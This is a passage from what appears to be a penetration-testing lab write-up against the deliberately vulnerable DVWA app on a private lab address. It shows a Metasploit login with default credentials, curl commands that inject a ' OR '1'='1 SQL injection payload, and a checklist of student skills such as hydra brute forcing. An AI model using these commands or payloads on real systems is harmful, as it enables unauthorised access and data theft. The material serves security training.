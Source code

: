 ```bash
   #  Name                                              Disclosure Date  Rank    Description
   -  ----                                              ---------------  ----    -----------
   0  exploit/unix/webapp/dvwa_sqli_blind                2015-10-05       manual  DVWA SQL Injection
   1  auxiliary/scanner/http/dvwa_login                                 normal  DVWA Login Scanner

msf6 > use auxiliary/scanner/http/dvwa_login
msf6 auxiliary(scanner/http/dvwa_login) > set RHOSTS 172.16.0.40
RHOSTS => 172.16.0.40
msf6 auxiliary(scanner/http/dvwa_login) > set USERNAME admin
USERNAME => admin
msf6 auxiliary(scanner/http/dvwa_login) > set PASSWORD password
PASSWORD => password
msf6 auxiliary(scanner/http/dvwa_login) > run

[+] 172.16.0.40:80 - Login Successful: admin:password
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Step 2: Manual Exploitation
```bash
root@kali-user1:/# curl -X POST http://172.16.0.40/login.php \
  -d "username=admin&password=password&Login=Login" \
  -c cookies.txt

root@kali-user1:/# curl -b cookies.txt http://172.16.0.40/vulnerabilities/sqli/
[... SQL injection page HTML ...]

# Test for SQL injection
root@kali-user1:/# curl -b cookies.txt \
  "http://172.16.0.40/vulnerabilities/sqli/?id=1'+OR+'1'='1&Submit=Submit"
[... returns all users - SQL injection confirmed! ...]
```

---

## 📊 Student Progress Tracking

### Completed Labs Checklist:
- ✅ Lab 1: Network Discovery (nmap scanning)
- ✅ Lab 2: Web Enumeration (gobuster, curl)
- ✅ Lab 3: SMB Enumeration (smbclient)
- ✅ Lab 4: Password Attacks (hydra)
- ✅ Lab 5: Basic Exploitation (Metasploit, manual SQLi)

### Skills Demonstrated:
1. **Network Reconnaissance**: Host discovery, port scanning
2. **Service Enumeration**: HTTP, SMB services
3. **Web Testing**: Directory busting, manual testing
4. **Password Attacks**: Brute forcing with hydra
5. **Exploitation**: Metasploit usage, SQL injection

---